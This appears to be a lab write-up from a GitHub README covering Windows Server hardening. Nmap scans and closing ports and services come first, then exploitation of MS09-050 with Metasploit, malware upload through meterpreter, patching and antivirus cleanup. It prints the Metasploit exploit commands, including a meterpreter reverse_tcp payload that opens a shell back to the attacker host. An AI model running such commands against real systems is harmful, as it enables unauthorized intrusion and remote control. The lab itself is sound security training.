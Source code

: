 ## Objective
In this lab, I will be combining using red-teaming skills on a Windows
Server with hardening concepts to patch the vulnerability and strengthen
the security of the server

## Skills Learned
Using Nmap to identify open ports and verify that they are closed after securing the system<br>
Closing unnecessary ports and disabling services on a Windows Server<br>
Deleting and disabling unneeded services with firewall exceptions<br>
Exploiting a known vulnerability (MS09-050) using Metasploit<br>
Uploading malware on the target system using Metasploit's meterpreter<br>
Running an antivirus on the target system to remove the uploaded malware<br>
Patching vulnerabilities by installing updates and restarting the system<br>

## Finding and Closing Unnecessary Ports

The network topology tells me that the server is on 192.168.1.10, so I
conduct an Nmap scan on the system with a Kali machine to see any ports
that are open. It shows MANY open ports

![image10](https://github.com/user-attachments/assets/b55096c5-df72-4db0-98ad-828fc858e0b3)


![image11](https://github.com/user-attachments/assets/74817e2c-734c-4248-bbab-bbdea3114375)


Now, acting as the Windows Server, I can close some of these ports and
other unnecessary services

![image3](https://github.com/user-attachments/assets/1ce3649e-8f9c-46c2-94e5-dad1d99c7c5e)

Additionally, I can delete and disable some unnecessary services that
had an exception rule applied to them on the firewall

![image6](https://github.com/user-attachments/assets/a9752d73-a656-486d-8a5a-6e7c7e571224)


![image14](https://github.com/user-attachments/assets/82610b7e-5e51-40c0-ad4c-54ac87348b3a)


Finally, conducting another Nmap scan on the server shows that these
unneeded and vulnerable services are now closed, sealing up major
security risks to the system and network, **especially insecure services
such as telnet and ftp.**

![image12](https://github.com/user-attachments/assets/f07474f5-db22-40f8-8bfe-606c42e57cd4)


## Exploiting

Even with some of the major vulnerable services closed up, it's still
possible to exploit this machine through the ports that SMB uses: 139
and 445

I will be exploiting the MS09-050 vulnerability that has not been
patched yet to gain access to the machine and upload malware.

\`use exploit/windows/smb/ms09_050_smb2_negotiate_func_index\`

\`set RHOST 192.168.1.10\`

\`set LHOST 192.168.1.101\`

\`set payload windows/meterpreter/reverse_tcp\`

\`exploit\`

![image8](https://github.com/user-attachments/assets/4462bd91-539d-411c-877b-ce5452a09052)


Now, I can use meterpreter commands that I've learned to navigate to the
Desktop directory of the administrator account and upload my malware as
well as a random text file I created

![image4](https://github.com/user-attachments/assets/43141be3-3988-4839-9528-5f3a55a815e7)


![image2](https://github.com/user-attachments/assets/91333da9-0e78-4460-92f0-aa4a6e34a366)


## Patching the Vulnerability

On the Windows computer, I can install the appropriate updates on the
machine, then restart the machine, to fully patch the vulnerability.

![image7](https://github.com/user-attachments/assets/b06cc76f-f59e-41f1-b9bb-bac7c6a66ebb)


![image5](https://github.com/user-attachments/assets/008eb2ab-17f9-4c65-97fc-aba2d4131b9e)


While the machine was restarting, and when it finished rebooting, I
noticed that I was virtually kicked out of the meterpreter shell on the
linux machine as none of the normal commands were working

![image1](https://github.com/user-attachments/assets/ad72616e-d762-42b5-80e3-d90e32a52ce1)


Then after a while, it alerted me that the session was ended

![image15](https://github.com/user-attachments/assets/98b54699-b6ad-4d78-8326-65065318d454)


Attempting to run the exploit again results in unsuccessful attempts to
gain access to the machine, the vulnerability has been patched and the
exploit no longer works

![image9](https://github.com/user-attachments/assets/eb09baf8-7133-4c3d-b05a-0c85762bbd29)

## Cleaning up the Windows Machine

Even though I was able to patch the vulnerability, some damage had
already been done with the virus being uploaded from the attacker
machine. I can run an antivirus scan on the Windows Server, with
Microsoft Security Essentials, to scan for and remove any malware that
could have been uploaded.

![image13](https://github.com/user-attachments/assets/5664ca49-db1a-4f06-9d73-611fa280643d)
